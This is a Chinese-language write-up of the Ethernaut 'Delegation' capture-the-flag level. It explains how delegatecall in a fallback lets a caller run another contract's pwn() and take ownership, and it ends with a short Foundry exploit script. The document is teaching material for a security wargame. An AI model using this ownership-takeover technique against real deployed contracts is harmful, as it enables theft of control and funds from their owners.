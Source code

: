 # Level 6 - Delegation
## 題目
[Delegation](https://ethernaut.openzeppelin.com/level/0x73379d8B82Fda494ee59555f333DF7D44483fD58)

### 通關條件
這一關的目標是取得創建實例的所有權。

### 提示
- 仔細看 solidity 文件關於 delegatecall 的低階函式。它是如何怎麽運行，如何委派操作給鏈上函式函式庫，以及它對執行時期作用範圍的影響
- fallback 方法(method)
- 方法(method)的 ID
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```
## 解題
### delegatecall
delegatecall 就像是委託行函數

通常 call 一個 function 的時候，都是等待 function 完成接收 return，舉例來說：A 合約去呼叫 B 合約的 function，不論 B 合約做了什麼，都是更改 B 合約裡的內容（變數），頂多最後 return 一些內容給 A ，但還是由 A 決定這些內容要被放置於哪個變數中。

但如果今天用 delegatecall 的方式，執行的雖然是 B 合約的 function，但是當 function 有改變變數時，會是更動 A 合約裡的變數（所以 A 和 B 合約的變數宣告要相同，才可以進行 delegatecall）。
關於 delegatecall，[[中文] WTF Solidity极简入门: 23. Delegatecall](https://github.com/AmazingAng/WTF-Solidity/tree/main/23_Delegatecall) 有更完整的解釋。


### fallback method
fallback 在 [Level 1 - Fallback](https://hackmd.io/@D13/ethernaut1#fallback-%E6%96%B9%E6%B3%95) 中有提到，這裡不再贅述。
### 方法(method)的 ID
Method ID 是函數簽名（Function Signature）經過 Keccak Hash 後的前 4 個 bytes，用於讓程式知道應該要跑哪一個 function，因為其實這題用到的沒有很深，所以先不深入說明，有興趣的可以看：
- [[中文] WTF Solidity极简入门: 29. 函数选择器Selector
](https://github.com/AmazingAng/WTF-Solidity/tree/main/29_Selector#method-idselector%E5%92%8C%E5%87%BD%E6%95%B0%E7%AD%BE%E5%90%8D)
- [[EN] What is a Method ID?](https://info.etherscan.com/what-is-method-id/)


---
研究完提示後，看回合約。這題目標是拿到合約 `Delegation` 的 owner，但是這個合約本身沒有修改 owner 的功能，但是另一個合約 `Delegate` 有這個功能。
所以只要 `Delegation` delegatecall `Delegate` 的 `pwn()`，就可以修改 `Delegation` 的變數 `owner`。而 `Delegation` 的 delegatecall，就在 `fallback()` 之中：
```solidity
fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
        this;
    }
}
```
所以我們只要轉帳給 `Delegation` 合約，並且將 `pwn()` 的 Method ID 作為交易資料 `msg.data` 送出即可，轉帳的方法在 [Level 1 - Fallback](https://hackmd.io/@D13/ethernaut1#%E5%A6%82%E4%BD%95%E9%80%8F%E9%81%8E%E8%88%87-ABI-%E4%BA%92%E5%8B%95%E7%99%BC%E9%80%81-ether%EF%BC%9F) 有提過
用 `call` 來轉帳並帶上參數可以看 [WTF Solidity极简入门: 22. Call](https://github.com/AmazingAng/WTF-Solidity/tree/main/22_Call)
攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/06_Delegation.sol";

contract ExploitScript is Script {
    Delegation public level06 = Delegation(payable(your_challenge_address));

    function run() external {
        vm.startBroadcast();
        
        address(level06).call(abi.encodeWithSignature("pwn()"));

        vm.stopBroadcast();
    }
}
```